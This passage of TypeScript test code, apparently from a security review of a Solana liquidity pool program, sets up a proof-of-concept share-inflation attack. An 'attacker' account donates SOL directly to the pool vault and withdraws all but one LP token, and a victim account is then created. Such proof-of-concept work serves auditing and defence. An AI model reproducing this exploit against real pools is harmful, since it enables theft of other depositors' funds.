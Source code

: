 ```ts
    console.log(" User amount after deposit: ", afterSolBalances.user);

    // Verify that the SOL was transferred to the pool's SOL vault
    const solVaultBalance = await provider.connection.getBalance(solVault);

    const lpMintBalance = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    lpAmountFirstDeposit = Number(lpMintBalance.toString());

    console.log("LP Mint balance: ", lpMintBalance);
  
    console.log("- Withdraw sufficient amaount of SOL, so that 1 LP token is left");

    // Sufficient amount: 793666283520 (890880 * 890880 - 890880)
    const transaction = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 793666283520,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction, [userKeypair]);

    // withdraw LPs so that 1 is left.
    const withdrawLpAmount = new anchor.BN(890880);
    await program.methods
    .withdrawSol(new anchor.BN(withdrawLpAmount))
    .accounts({
      pool: poolAccount,
      user: userKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: userLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
    })
    .signers([userKeypair])
    .rpc();

    const afterWithdrawSolBalances = {
      user: await provider.connection.getBalance(userKeypair.publicKey),
      vault: await provider.connection.getBalance(solVault),
    }

    console.log("Vault amount after withdrawal: ", afterWithdrawSolBalances.vault);
    console.log(" User amount after withdrawal: ", afterWithdrawSolBalances.user);

    const lpMintBalanceAfter = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    console.log(" Attacker LP amount after withdrawal: ", lpMintBalanceAfter);

    //console.log(" User gain: ", afterWithdrawSolBalances.user - );

    const transaction2 = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 1 * LAMPORTS_PER_SOL,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction2, [userKeypair]);

    const victimKeypair = Keypair.generate();

```
